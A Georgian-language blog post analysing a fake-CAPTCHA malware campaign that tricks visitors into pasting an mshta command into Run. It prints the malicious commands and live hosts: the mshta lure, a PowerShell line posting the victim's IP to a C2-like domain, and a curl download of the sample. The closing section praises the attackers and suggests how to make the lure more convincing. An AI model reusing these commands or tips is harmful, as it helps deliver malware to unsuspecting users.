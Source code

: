 ```yaml
---
title: "ფიშინგი რობოტების წინააღმდეგ!"
date: 2024-12-20 18:10:00 +0400
categories: [CyberSecurity,Hacking]
tags: [Malware]
---
```


## რა მოხდა?

ერთ-ერთ საიტზე შევედი და უცებ ასეთი რამ გამოჩნდა:

![1.png](https://44b4c0.github.io/assets/img/posts/22/1.png)

მეც ამოვხსენი ეს "თავსატეხი", მაგრამ შემდეგ ასეთი რამ გამოჩნდა:

![2.png](https://44b4c0.github.io/assets/img/posts/22/2.png)

ვის სჯერა, რომ `DNS` სერვერი არ მუშაობს და `run`-ში რაღაც უცნაური უნდა ჩაწეროს?

## ანალიზის დასაწყისი

ყველაზე უცნაური აქ ისაა, რომ არაფრის დაკოპირება მოუთხოვია. შესაძლოა როდესაც "თავსატეხის" ამოხსნას დავაჭირე სწორედ მაშინ მოხდა ტექსტის `clipboard`-ში გადატანა. როდესაც `paste` ვცადე `notepad`-ში, ასეთი რამ გამოჩნდა:

```powershell
mshta https://microsoft-dns-reload-6y.pages.dev # "Microsoft Windows: DNS service Reload and Restart UP
```

`mshta` არის `Microsoft HTML Application` ჰოსტი, რომელიც ამ უცნაური ლინკიდან წამოღებულ `.hta` ფაილს გაუშვებს. ახლა ისღა დამრჩენია ეს ფაილი ვიშოვო და შემდეგ ვირტუალურ მანქანაში გავაკეთო მისი ანალიზი.

![3.png](https://44b4c0.github.io/assets/img/posts/22/3.png)

აქ კარგად ჩანს თუ რის გაკეთებას ცდილობს `HTML`-ში ჩაშენებული `VBA` სკრიპტი. მოკლედ რომ ვთქვა, გაჩნდება `powershell` პროცესი, რომელიც `base64`-ში დაენკოდებული `URL`-ს გაუგზავნის `HTTP` მოთხოვნას.

![4.png](https://44b4c0.github.io/assets/img/posts/22/4.png)

აქ უკვე `.exe` ფაილი გამოჩნდა. რა თქმა უნდა, ამ ეტაპზე წინა `.exe` ფაილის ანალიზი არ დამისრულებია, მაგრამ ამ ბლოგში ვეცდები ეს ფაილი დავშალო და შევამოწმო რას აკეთებს უფრო კონკრეტულად.

## Powershell-ის ანალიზი

მოკლედ, რაღაც ლინკიდან მოდის `.exe` ფაილი, რომელიც ინახება `response`-ში. ამის შემდეგ სკრიპტი ამოწმებს არსებობს თუ არა `MemoryExec`, რაც ნიშნავს იმას, რომ სკრიპტი ამოწმებს შეუძლია თუ არა კომპიუტერს მთლიანი `binary` ინფორმაციის მეხსიერებაში გადატანა და იქიდან გაშვება, ანუ ფაილის მყარ დისკზე არ შექმნა. ასეთ ფაილებს `Lolbin`-ები ეწოდებათ, ანუ `Live Off the Land Binaries`.

```powershell
Invoke-RestMethod -Uri "https://saaadnesss.shop/connect" -Method Post -Body (@{ip = (Invoke-RestMethod -Uri "https://ifconfig.me/ip")} | ConvertTo-Json) -Headers @{ "Content-Type" = "application/json" } | Out-Null
```

აქ `JSON` მონაცემები იგზავნება `POST` მეთოდით და ეს ჰედერებიდანაც კარგად ჩანს:

```
Content-Type: application/json
```

`JSON` მონაცემები კი `hxxps://ifconfig.me/ip`-დან წამოვა. ეს საიტი შესული მოთხოვნის ანალიზს აკეთებს და უკან გარკვეულ ფორმატში აბრუნებს. ამ სკრიპტის ავტორი კი მას `JSON`-ად გადააქცევს `ConvertTo-Json`-ის გამოყენებით.

ეს ყველაზე საინტერესოა. დიდი ალბათობით ამ დომენის უკან მთავარი `C2` სერვერი დგას, რომელსაც შეგვიძლია, რომ ჩავარტყათ. ვეცდები სხვა ქსელიდან ვცადო ეს ყველაფერი.

```
hxxps://polovoiinspektor.shop/protect/GodResponsibility.exe
```

როგორც ჩანს ფაილის სახელია `GodResponsibility`. არ ვიცი ასეთი არაკრეატიული სახელი რატომ ჰქვია, მაგრამ ჩემთვის სულ ერთია, მთავარია ჰოსტი ნაპოვნია.

`Run()` ფუნქცია კი, რომელიც `HTTP` სერვისიდან მიღებულ `data stream`-ს მეხსიერებაში ტვირთავს და შემდეგ უშვებს, პროცესის ოფციებს ასწორებს/აკონფიგურირებს. მაგალითად:

```c#
process.StartInfo.CreateNoWindow = true;
```

ეს ნიშნავს, რომ პროცესის `startup info`-ში(ეს ის სტარტაპი არ არის) ჩაიწერება ოფცია, რომელიც ამ პროცესის შექმნისას არ გააჩენს ფანჯრებს. ანუ, თუ მაგალითად ეს აპლიკაცია `Console Application` არის, ეს ნიშნავს იმას, რომ მას აუცილებლად დასჭირდება `conhost.exe` და მარტივად რომ ვთქვა `cmd.exe`-ს ფანჯარა. ეს ოფცია ამ ფანჯრის შექმნის პრევენციას მოახდენს.

```powershell
curl https://polovoiinspektor.shop/protect/GodResponsibility.exe --output GodResponsibility.exe
```

ამ ბრძანებით ვიწერ მავნე კოდს და `GodResponsibility.exe` ფაილში ვინახავ, `Desktop`-ზე.

## GodResponsibility.exe

ფუნქციების შემოწმებისას აქაც ჩანს ბევრი ისეთი ფუნქცია, რომელიც წინა მავნე კოდის განხილვისას აღმოვაჩინე.

![5.png](https://44b4c0.github.io/assets/img/posts/22/5.png)

ზოგი ტექსტი წინა `malware`-შიც აღმოვაჩინე, ასე, რომ ძალიან მაინტერესებს რა მოხდება ამ პროგრამას თუ გავუშვებ. სანამ ამას გავაკეთებ ერთხელ გადავხედავ `r2.exe`-თი და მერე ჩავაგდებ `xdbg`-ში.

![6.png](https://44b4c0.github.io/assets/img/posts/22/6.png)

ეს და წინა მავნე კოდი, `NativeApp_G4QLIQRa.exe` ძალიან ემთხვევიან ერთმანეთს. განსხვავება აქ ისაა, რომ წინა ვირუსი 50 მეგაბაიტზე მეტი იყო ზომაში, ხოლო ეს მხოლოდ 1.18 მეგაბაიტია.

სხვათაშორის, ეს ვირუსი 2024 წლის 17 სექტემბერსაა ხელმოწერილი `Notepad++`-ის მიერ. ყოველშემთხვევაში ასე წერია დეტალებში.

![GodPriority.png](https://44b4c0.github.io/assets/img/posts/22/GodPriority.png)

ეს აღმოვაჩინე. `.exe`-ს `icon` ყოფილა. დიდად ვერ ვხვდები ეს რას შეიძლება ნიშნავდეს, მაგრამ საკმაოდ საინტერესოა, როდესაც მავნე კოდში ასეთ უცნაურ რამეს პოულობს ვინმე.

ახლა შევეცდები `Wireshark` ჩავწერო ვირტუალურ მანქანაზე და შემდეგ ქსელს გავუთიშავ მას. აი როდესაც ამას ვიზამ `Wireshark`-ს ჩავრთავ და ვირუსს გავუშვებ. ვნახავ რის გაგზავნას შეეცდება და სად, ან საერთოდ თუ შეეცდება რამის გაგზავნას სადმე.

#### ყველაფერი აირია

სამწუხაროდ ყველაფერი აირია. ვირტუალური მანქანა გაითიშა და ის პროგრესი რაც მქონდა სულ დაიკარგა. ამასთან, ვირუსმა თავი წაიშალა. ამ ვირტუალური სისტემის ქსელთან დაკავშირება არ მსურს, რადგან შესაძლოა ვირუსი ჩემს ქსელში გავრცელდეს, ასე, რომ ამ ეტაპზე მას ასე დავტოვებ.

## Attack Chain-ის შეფასება

#### Stage 0

საბოლოოდ, ვფიქრობ, ამ გუნდმა კარგად იმუშავა და ნამდვილად იმსახურებენ დაფასებას. სოციალური ინჟინერიის ხარისხის ძალიან მომეწონა, როდესაც `Google Capcha` თავიდან ააწყვეს და შემდეგ `Run`-ში `Clipboard`-დან ბრძანების ჩაწერა შემოგვთავაზეს. **ასეთი რაღაცების კრიტიკოსი უნდა გავხდე**.

#### Stage 1

კარგი იყო `hxxps://microsoft-dns-reload-6y.pages.dev` ლინკიც, რომელიც ყველანაირად ვალიდურად გამოიყურება. ერთადერთი, რაც ამ ყველაფერს საეჭვოს ხდის არის `6y` და, ვფიქრობ, ეს უნდა მოშორდეს დომენს. ყოველშემთხვევაში მე მაგ ნაწილს არ გამოვიყენებდი სამიზნის დაბნევის დროს.

`VBA` სკრიპტის `HTML`-ში ინტეგრაცია და `WScript.Shell`-ის გაჩენა `CreateObject`-ით, ეს სტანდარტული სვლაა და იმდენად ბევრი ჰაკერი აკეთებს უკვე ამას, რომ აღარ მაოცებს. **სამაგიეროდ** მომეწონა მეორე დომენის სახელი, რომელიც `.shop`-ით ბოლოვდება და ეს, ჩემი აზრით, უფრო ვალიდურ იერსახეს მისცემს ამ კონკრეტულ დომენს.

#### Stage 2-3

`Powershell`-ს რაც ეხება კარგია, რომ დეველოპერს არ ავიწყდება მეხსიერებაში პირდაპირი ჩატვირთვის ფუნქციონალის შემოწმება მანამ, სანამ ის ამას გააკეთებს. **მაგრამ** არ მესმის ეს:

```powershell
Invoke-RestMethod -Uri "https://saaadnesss.shop/connect" -Method Post -Body (@{ip = (Invoke-RestMethod -Uri "https://ifconfig.me/ip")} | ConvertTo-Json) -Headers @{ "Content-Type" = "application/json" } | Out-Null
```

საქმე ისაა, რომ ინფიცირებისას რაც შეიძლება ნაკლებად ხმაურიანი უნდა იყოს მავნე კოდი, იმპლანტი თუ დროპერი. აქედან გამომდინარე ისმის კითხვა: `რატომ გახდა საჭირო კიდევ ორი მოთხოვნის განხორციელება?`. აქ რაცაა მოცემული, მაგის გაკეთება `.exe` ფაილიდანაც შეიძლებოდა, მოგვიანებით.

მოკლედ, რომ შევაჯამო, საკმაოდ საინტერესო შეტევის მეთოდია და ნამდვილად იმსახურებს ეს მეთოდი განვითარებას.
